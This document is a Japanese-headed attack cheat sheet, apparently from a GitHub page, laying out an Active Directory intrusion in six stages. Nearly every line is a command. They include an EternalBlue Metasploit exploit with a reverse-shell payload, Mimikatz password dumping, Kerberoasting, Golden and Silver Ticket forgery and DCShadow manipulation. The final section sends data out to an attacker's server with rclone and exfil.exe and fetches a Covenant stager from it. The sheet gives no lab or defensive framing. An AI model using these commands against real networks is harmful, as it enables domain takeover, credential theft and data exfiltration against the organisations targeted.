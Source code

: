 ### 1. 偵察
#### ツール: BloodHound, Powerview, ADExplorer
```bash
# BloodHound
Invoke-BloodHound -CollectionMethod All

# Powerview
Get-NetUser -Domain
Get-NetComputer -Domain
Get-NetGroup -Domain

# ADExplorer
ADExplorer.exe /server:<domain-controller-ip>
```

### 2. 初期アクセス
#### ツール: Metasploit, Cobalt Strike, Empire
```bash
# Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <target-ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your-ip>
exploit

# Cobalt Strike
beacon> powershell-import /path/to/PowerView.ps1
beacon> powershell Invoke-UserHunter

# Empire
usemodule stager/multi/launcher
set Listener http
execute
```

### 3. 権限の昇格
#### ツール: Mimikatz, Rubeus, CrackMapExec
```bash
# Mimikatz
privilege::debug
sekurlsa::logonpasswords

# Rubeus
Rubeus.exe kerberoast /outfile:hashes.txt

# CrackMapExec
cme smb <target-ip> -u <username> -p <password> --local-auth
```

### 4. 横方向の移動
#### ツール: PsExec, PowerShell Remoting, Cobalt Strike
```bash
# PsExec
PsExec.exe \\<target-ip> -u <username> -p <password> cmd

# PowerShell Remoting
Enter-PSSession -ComputerName <target-ip> -Credential <username>

# Cobalt Strike
beacon> shell psexec.exe \\<target-ip> -u <username> -p <password> cmd.exe
```

### 5. 持続性
#### ツール: Golden Ticket, Silver Ticket, DCShadow
```bash
# Golden Ticket
mimikatz.exe "kerberos::golden /user:<username> /domain:<domain> /sid:<domain-sid> /krbtgt:<krbtgt-hash> /id:<rid> /ptt" exit

# Silver Ticket
mimikatz.exe "kerberos::golden /domain:<domain> /sid:<domain-sid> /target:<target> /service:<service> /rc4:<service-hash> /user:<username> /id:<rid> /ptt" exit

# DCShadow
mimikatz.exe "lsadump::dcshadow /object:<target-user> /attribute:sidHistory /value:<sid-value>" exit
```

### 6. データの流出
#### ツール: Exfil, Rclone, Covenant
```bash
# Exfil
exfil.exe -target <target-directory> -destination <your-server>

# Rclone
rclone copy <local-directory> <remote-name>:<remote-directory>

# Covenant
Stager PS
Invoke-Stager -Uri http://<your-covenant-server>/launcher
```